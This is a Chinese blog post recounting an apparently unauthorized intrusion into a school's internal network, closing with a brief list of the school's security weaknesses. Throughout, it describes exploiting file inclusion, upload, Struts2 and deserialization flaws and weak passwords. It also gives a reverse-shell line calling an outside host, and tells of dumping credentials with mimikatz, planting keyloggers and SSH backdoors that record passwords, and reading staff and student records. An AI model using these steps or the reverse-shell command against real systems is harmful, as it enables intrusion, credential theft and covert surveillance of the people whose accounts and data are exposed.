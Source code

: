 ```yaml
---
title: 内网漫游
date: 2017-09-18 11:11:58
tags: 个人
password: "wo de offer ne?"
---
```

### 内网漫游经历
#### 学校内网
1. 信息收集
```txt
    1. 大致分析每个网段的作用。入61,64,71等网段的应用服务器。
    2. 摸索waf型号，版本等等
    3. 收集服务器的web信息, 框架版本, 扩展
    4. 收集一些网站管理员信息
    5. 收集网段与网段之间的信息，也就是waf过滤端口规则
```

2. 漏洞发现
```txt
    1. 非waf网段的本地文件包含, 1433 对外开放(新校区)
    2. 运维监控服务器的插件任意文件上传
    3. 核心有waf网段的tomcat 弱口令
    4. 核心有waf网段java反序列化
    5. 核心有waf网段 struct2
    6. 校内网络认证服务器 struct2

    运营商
    7. 移动内网弱口令及任意文件上传

    教务
    8. 明文密码写在js里面
    9. 水平越权漏洞，存在接口可以直接看别人的个人信息，考试成绩等等
```

3. 渗透过程
(1). (新校区)本地文件包含
```txt
    1. 包含到配置文件, 发现数据库
    2. 连接数据库, 权限查询, 提权失败。
    3. 数据库密码进行administrator密码测试，成功登陆
    4. 发现管理员没有注销。mimikatz抓lsass.exe的密码
    5. 留后门
```

(2). 运维监控服务器的插件任意文件上传
```txt
    1. weathermap 任意文件上传, getshell
    2. 管理员发现, 重命名 bt.php.hackhole
    3. apache解析漏洞, 本质还是执行php
    4. ps -aux 发现很多root进程, 其中发现一个root的crontab对一个php脚本(可改)5分钟执行一次
    5. 增加system('bash -i >& /dev/tcp/1.1.1.1/2333 0>&1'); 其他同理
    6. 安装ssh后门
```

(3). 核心网段
```txt
    1. 人事处java反序列化，较为鸡肋，只拿下了人事处一台机器
    2. tomcat弱口令，上传war包马发现是内网映射出的一台机器，mimikatz抓密码，拿下整个小内网(10几台)
    3. struct2 校园卡，修复不及时。拿下一台入口机器，里面是绝对隔离的内网(未深入)
```

(4). 校内网络认证服务器
```txt
    1. struct2 已经被人拿下shell
    2. 附属相关的一台机器也被人拿下
```
4. 后渗透
多个互相隔离的网段,
(1). (新校区)本地文件包含
```txt
    * 管理员(计算中心)
        0. ipconfig --> 内网扫描
        1. 查看曾经远程桌面的ip，尝试进行登录。有几台登录成功，mimikatz抓取密码。
        2. 登录成功的几台机器上发现一个小本本，存放有全部机器的administrator的密码，一部分不能登录，但是可用当前管理员账号登录
        3. 发现一台linux, 根据某机器上面的小本本，拿下linux root.又发现小内网一台放oracle的linux，密码相同
        4. 同样这个cms的本地文件包含拿下计算中心主页
    * 管理员(党校)
         1. 党校与当前服务器相同，直接可以上数据库增删改查。含有很多用户的信息。密码是自定义的加密算法，可以逆出明文
         2. 查看远程桌面发现此管理员是一个开发, 运维网段有一台开发机, 尝试密码登录成功
         3. 信息收集, 大量应用服务器的ftp账号密码, 但是邮箱有2次密码，安装keylogger记录
         4. 信息收集, 邮箱密码抓到后发现无太大价值东西。
    * 管理员(超算中心)
        0. ipconfig --> 内网扫描
        1. 发现putty, vnc-view，收集信息一圈无用。安装keylogger
        2. 记录一段时间信息，抓到root密码
        3. 测试发现，管理员密码弱口令
        4. 信息收集：发现超算是一台认证服务器之后公私钥进行登录到其他服务器的。
        5. 安装ssh后门，记录全部用户的账号密码，拿下整个超算
        6. bash_history 发现此管理员邮箱密码，登录后发现是security邮件组管理员, 学校外部漏洞等可以方便查看
        7. 信息收集。其百度云盘发现学校防火墙配置, 一些文件集合,
```

(2). 运维监控服务器的插件任意文件上传
```txt
    1. 拿下root之后进行信息收集, /etc/hosts /etc/shadow /etc/passwd, .bash_history 等等，配置文件发现一个139邮箱的账号密码
    2. ipconfig --> 内网扫描
    3. ssh 后门记录的root密码爆破密码，爆破多台机器，装后门
    4. 每个机器信息收集，发现一台机器是运维常用的。发现处理二层设备的脚本，装好了nmap
    5. 运维网段，root密码相同的，发现是一些运维的管理平台，php编写。密码不可破解。留php记录密码
    6. 发现smb服务，拿下整个学校网络拓扑图，配置文件等等
    7. 根据邮箱密码, root密码等组合，爆破出运维vpn root密码, 此vpn可以直接管理二层设备
    8. 校内网络管理getshell, 全部老师的校内网认证，财务vpn及运维vpn(未深入)
    6. 方程式0day爆发打内网，拿下两台windows的机器，一台负责学生网段dhcp，一台是机房监控的服务器，可以远程开关门

    跨网段
    5. 继续扫描监控其他网段，某核心网段机器的22端口开放，尝试ssh后门密码登录成功。
    6. 拿下一个内网的dns服务器，接着进行对内网扫描。发现是邮件服务器的同一网段，(没有拿下邮件服务器)
    7. 发现一个思科管理kvm的平台，弱口令(没发现怎么利用)
```

(3). 应用服务器核心网段
```txt
    1. war包上传代理，reGeorg正向http代理
    2. 扫描内网发现，ftp弱口令(需要代理), 上传shell后serv-u提权, 拿下此站发现是一个站群
    3. 继续信息收集，发现可以有与门户单点认证相关的操作，于是翻到oracle的配置等, 拿下学校门户单点认证数据库全部数据(未脱裤)
    4. 通过代理，struct2攻击校园卡平台，拿下一台机器权限。抓密码，发现密码和hostname存在规律，尝试其他机器成功，拿下三台校园卡机器(存在域，未深入)
```

先想到这么多, 等想起来接着写

##### 总结
1. 学校安全大体上还是不错的，人员分工明确，应用服务器vm构架，定时进行恢复备份
2. 但是绝大部分的不错是基于网络产品，一些waf对恶意流量清洗和对恶意攻击屏蔽
3. waf部署不全，部分应用服务器可以被直接拿下，之后进行跨网段可能可以对一些waf规则进行绕过
4. 存在运维弱口令，密码长期不修改等等问题
5. 对一些新爆发的漏洞监控不及时，修复周期长会导致getshell
6. 外包开发，对某些漏洞修复很草率。外包产品一些将用户明文密码在js中展示，水平垂直权限配置十分不合理


